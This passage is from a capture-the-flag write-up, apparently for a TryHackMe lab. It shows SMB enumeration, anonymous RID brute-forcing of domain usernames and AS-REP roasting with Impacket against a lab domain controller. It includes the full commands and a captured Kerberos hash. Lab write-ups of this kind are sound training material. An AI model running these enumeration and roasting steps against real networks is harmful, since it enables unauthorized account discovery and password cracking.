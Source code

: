 ```bash

Host script results:
| smb2-time: 
|   date: 2024-02-29T10:01:21
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
{: .nolineno}
{: .nolineno}
## SMB Enumeration ⤵️

I checked the domain name with no cred access and I got the domain name with **<mark style="background: #FF5582A6;">netexec</mark>** Tool .
![Image](Pasted%20image%2020240229152840.png)
_Domain Name : thm.corp_
Lets access with Anonymous as username and now I can access IPC$ hidden share that indicates that I can enumerate users by bruteforcing RID's  using this flag <mark style="background: #BBFABBA6;">--rid-brute</mark> .
![Image](Pasted%20image%2020240229153527.png)
_Username enumeration through rid bruteforcing_
I collected all the usernames into a file called **<span style="color:#ffff00">usernames.txt</span>** 🔽
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ cat a.txt| cut -d '\' -f 2 | grep SidTypeUser | awk '{print $1}' > usernames.txt
```
{: .nolineno}
{: .nolineno}
I then tried **<span style="color:#00ff91">AS-REP ROASTING</span>** with <mark style="background: #FF5582A6;">GetNPUser.py</mark> Tool from impackets 🔻
```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ /opt/Tools/impacket/examples/GetNPUsers.py -no-pass 'thm.corp/' -dc-ip 10.10.199.27 -request -usersfile usernames.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator does not have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest does not have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HAYSTACK$ does not have UF_DONT_REQUIRE_PREAUTH set
[-] User 3091731410SA does not have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$ERNESTO_SILVA@THM.CORP:5354c47811d01c6b287e5218897de008$d81ec078729db3fb43e582f030f7100970f32c8be9b22b0e7d42255053b4f448b3bdbd3bbee9cac407eca74d110b43e1a1ddfc463155002401cfeb7b132589353b0a1696e32d29ef2a097ae04ebb57aa76b863c856dfbde7fb2828b06d1a3d1621bf53b166e96ccdbc716ed690e17518ed900c16bf065fb73f06f7d6495b2b246931263c0a6af2c1d8cd69027905088671216c16a2127b94da8df5c91c3e25ddeb232f5037c1f16a1ed21c7a5c0d1f90f8bef394b63600ca0881c79ff33a4308b4639e64dbcc7438b5805dae4e4dd650009fcd573a82933ae0ca933315fbcdb634240a37
[-] User TRACY_CARVER does not have UF_DONT_REQUIRE_PREAUTH set
[-] User SHAWNA_BRAY does not have UF_DONT_REQUIRE_PREAUTH set
[-] User CECILE_WONG does not have UF_DONT_REQUIRE_PREAUTH set
[-] User CYRUS_WHITEHEAD does not have UF_DONT_REQUIRE_PREAUTH set
[-] User DEANNE_WASHINGTON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User ELLIOT_CHARLES does not have UF_DONT_REQUIRE_PREAUTH set
[-] User MICHEL_ROBINSON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User MITCHELL_SHAW does not have UF_DONT_REQUIRE_PREAUTH set
[-] User FANNY_ALLISON does not have UF_DONT_REQUIRE_PREAUTH set
[-] User JULIANNE_HOWE does not have UF_DONT_REQUIRE_PREAUTH set
[-] User ROSLYN_MATHIS does not have UF_DONT_REQUIRE_PREAUTH set
[-] User DANIEL_CHRISTENSEN does not have UF_DONT_REQUIRE_PREAUTH set
[-] User MARCELINO_BALLARD does not have UF_DONT_REQUIRE_PREAUTH set
```